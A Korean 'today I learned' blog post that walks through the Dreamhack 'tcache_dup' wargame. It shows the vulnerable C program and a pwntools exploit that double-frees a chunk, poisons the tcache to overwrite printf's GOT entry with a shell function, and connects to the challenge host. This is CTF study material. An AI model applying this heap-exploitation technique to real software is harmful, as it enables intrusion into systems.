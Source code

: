 ```yaml
---
title:  "TIL: tcache poisoning 1 🗃️ "
excerpt: "2022.08.22 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking
---
```


## Wargame: [tcache_dup](https://dreamhack.io/wargame/challenges/60/)

문제의 소스 코드는 아래와 같다.

```c
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
    int size;

    if(cnt > 10) {
        return -1;
    }
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if(!ptr[cnt]) {
        return -1;
    }

    printf("Data: ");
    read(0, ptr[cnt], size);
}

int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if(idx > 10) {
        return -1;
    }

    free(ptr[idx]);
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    int idx;
    int cnt = 0;

    initialize();

    while(1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);

        switch(idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }

    return 0;
}
```

### Vulnerability Scanning

- `checksec`
    
    <p align="center">
        <a href="/assets/images/TIL220822/Untitled.png">
            <img src="/assets/images/TIL220822/Untitled.png" width="400">
        </a>
    </p>
- `create`을 이용해 원하는 size로 `malloc`을 실행할 수 있고, 그 안에 data를 입력할 수 있다.
- `free`를 이용해 allocate한 chunk 중 원하는 chunk를 free할 수 있다.
- `get_shell`을 실행하면 shell을 획득할 수 있다.

### Exploit

```python
from pwn import *

#p = process("./tcache_dup")
p = remote("host3.dreamhack.games", 9302)
#gdb.attach(p)
e = ELF("./tcache_dup")

def create(size, data):
    p.sendlineafter("> ", "1")
    p.sendlineafter("Size: ", str(size))
    p.sendafter("Data: ", data)

def delete(idx):
    p.sendlineafter("> ", "2")
    p.sendlineafter("idx: ", str(idx))

create(0x30, "AAAA")
delete(0)
delete(0)

printf_got = e.got["printf"]
get_shell = e.symbols["get_shell"]

create(0x30, p64(printf_got))
create(0x30, "AAAA")
create(0x30, p64(get_shell))

p.interactive()
```

- 문제의 서버에서 사용중인 libc의 버전에서는 앞서 설명한 `tcache_entry→key`를 활용한 **DFB 방지기법을 사용하지 않는다.** 따라서 그냥 free를 두 번 실행하여 DFB를 일으킬 수 있다.